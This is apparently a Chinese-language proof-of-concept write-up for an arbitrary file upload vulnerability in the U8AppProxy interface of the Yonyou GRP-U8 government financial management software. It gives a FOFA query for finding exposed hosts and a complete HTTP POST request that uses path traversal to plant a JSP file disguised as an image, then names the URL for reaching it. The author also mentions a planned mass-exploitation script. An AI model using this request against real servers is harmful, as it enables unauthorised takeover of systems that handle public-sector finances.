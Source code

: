 ## 0x00 漏洞介绍

    用友GRP-U8R10行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 U8AppProxy接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。
    
## 0x01 漏洞复现

   FOFA搜索title="用友GRP-U8行政事业内控管理软件"
   
   上传londly到跟目录
   
   ```
   POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=635F2271089E7A7E66F3F84824553DEE
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 01 Feb 2016 08:01:00 GMT
If-None-Match: W/"5732-1454313660000"
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
Content-Length: 194

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="londly.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
   ```
   
访问 http://xxxxxxxxxxxx/londly.jsp  

0x02 批量脚本给自己留哥作业，有时间再写
   
